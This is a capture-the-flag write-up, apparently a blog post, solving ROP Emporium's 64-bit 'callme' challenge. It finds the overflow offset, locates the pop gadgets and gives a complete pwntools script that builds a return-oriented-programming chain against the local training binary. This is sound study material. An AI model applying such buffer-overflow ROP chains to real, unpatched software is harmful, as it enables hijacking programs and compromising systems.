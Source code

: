 ```yaml
---
layout: post
title: ROP Emporium Challenge 2 - Callme (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments.*
<!--more-->

# callme

Link: https://ropemporium.com/challenge/callme.html


------------------------------------------


## 1. Calculating RIP overwrite offset

First, we check with GDB that the offset is still 40. It seems so given that with 41 characters we see only one "41" in RIP registry::

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme/images/Screenshot_1.jpg)



## 2. Studying the binary

Then, we need to find the addresses of "callme_one", "callme_two" and "callme_three". We can do this with objdump:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme/images/Screenshot_2.jpg)

But we will use Python directly:

```
callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
```


## 3. Calling the functions

The input arguments of a function in 64 bits must be stored in these registers before calling the fuction ([source](https://uclibc.org/docs/psABI-x86_64.pdf)):

- First Argument: RDI

- Second Argument: RSI

- Third Argument: RDX

- Fourth Argument: RCX

- Fifth Argument: R8

- Sixth Argument: R9


So we need to find the gadgets for storing values in RDI, RSI and RDX, the 3 first arguments used to store input arguments for a function when using 64 bits.

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme/images/Screenshot_3.jpg)

We did not find a gadget such as *"pop rsi ; ret"*, but there is an alternative: using *"pop rsi ; pop r15 ; ret"* and just send a junk value to be stored in registry R15 (which is useless in this case).

Again, we will automatize this using Python:

```
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] 
pop_rsi = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] 
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0] 
```

## 4. Final exploit

The final exploit is:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'callme'
p = process('./'+binary_name)

junk = "A"*40
elf = ELF(binary_name)
rop = ROP(elf)

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] 
pop_rsi = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] 
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0] 
log.info("pop_rdi: "+hex(pop_rdi))
log.info("pop_rsi: "+hex(pop_rsi))
log.info("pop_rdx: "+hex(pop_rdx))

callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
log.info("callme_one: "+  hex(callme_one))
log.info("callme_two: "+  hex(callme_two))
log.info("callme_three: "+hex(callme_three))

rop =  junk
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_one)
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_two)
rop += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(2) + p64(2) + p64(pop_rdx) + p64(3) 
rop += p64(callme_three)

p.recvuntil("> ")
p.send(rop)
p.interactive()

```


When I execute it, it returns the value of the flag:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/2_callme/images/Screenshot_4.jpg)
